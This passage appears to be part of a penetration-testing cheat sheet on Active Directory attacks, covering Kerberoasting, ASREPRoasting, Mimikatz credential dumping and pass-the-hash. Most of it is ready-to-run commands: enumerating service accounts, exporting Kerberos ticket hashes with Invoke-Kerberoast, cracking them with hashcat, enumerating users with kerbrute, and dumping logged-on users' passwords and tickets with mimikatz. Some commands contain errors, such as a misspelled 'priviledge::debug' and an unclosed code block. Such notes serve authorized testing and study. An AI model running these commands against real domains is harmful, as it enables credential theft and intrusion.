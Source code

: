 The service ticket is encrypted through the password hash of the SPN. So, We can request a service ticket from DC, extract and attemp to crack the password of the service account.

**Find all users with an SPN set (likely service accounts)**

```powershell
Get-DomainUser -SPN
```

The **Invoke-Kerberoast.ps1** script extends this attack, and can automatically enumerate all service principal names in the domain, request service tickets for them, and export them in a format ready for cracking in both John the Ripper and Hashcat, completely eliminating the need for Mimikatz in this attack.

```powershell
Import-Module C:\Windows\Temp\Invoke-Kerberoast.ps1
```

```powershell
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```

```powershell
hashcat -m 13100 --force -a 0 hashes.kerberoast rockyou
```

### ASREPRoasting

ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

If don't have any domain username, let's enumerate

```bash
./kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt
```

Then, use `GetNPUsers` to request ticket

```bash
impacket-GetNPUsers domain.local/svc-admin -no-pass
``

Dump the credentials of all logged-on users:

```powershell
mimikatz.exe "priviledge::debug" "sekurlsa::logonpasswords" exit
```

Dump Kerberos TGT and service tickets:

```powershell
mimikatz.exe "priviledge::debug" "sekurlsa::tickets" exit
```

### Pass the hash

Allows an attacker to authenticate to a remote system or service using a user's NTLM hash instead of the associated plaintext password
